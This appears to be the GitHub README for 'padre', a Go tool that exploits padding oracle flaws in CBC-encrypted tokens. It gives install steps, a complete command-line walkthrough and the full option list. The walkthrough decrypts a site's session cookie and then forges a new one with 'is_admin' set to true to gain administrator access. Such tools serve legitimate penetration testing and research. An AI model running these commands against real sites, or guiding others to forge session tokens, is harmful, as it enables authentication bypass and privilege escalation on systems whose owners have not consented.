 ![](https://img.shields.io/github/go-mod/go-version/glebarez/padre) ![Build Release](https://github.com/glebarez/padre/workflows/Build%20Release/badge.svg) ![](https://img.shields.io/codecov/c/github/glebarez/padre/master)

# padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](assets/demo.gif )

## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Full usage options
```
Usage: padre [OPTIONS] [INPUT]

INPUT: 
	In decrypt mode: encrypted data
	In encrypt mode: the plaintext to be encrypted
	If not passed, will read from STDIN

	NOTE: binary data is always encoded in HTTP. Tweak encoding rules if needed (see options: -e, -r)

OPTIONS:

-u *required*
	target URL, use $ character to define token placeholder (if present in URL)

-enc
	Encrypt mode

-err
	Regex pattern, HTTP response bodies will be matched against this to detect padding oracle. Omit to perform automatic fingerprinting

-e
	Encoding to apply to binary data. Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r
	Additional replacements to apply after encoding binary data. Use odd-length strings, consiting of pairs of characters <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~', then use -r "/!+-=~"

-cookie
	Cookie value to be set in HTTP requests. Use $ character to mark token placeholder.

-post
	String data to perform POST requests. Use $ character to mark token placeholder. 

-ct
	Content-Type for POST requests. If not specified, Content-Type will be determined automatically.
	
-b
	Block length used in cipher (use 16 for AES). Omit to perform automatic detection. Supported values:
		8
		16 *default*
		32

-p
	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy
	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
```

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster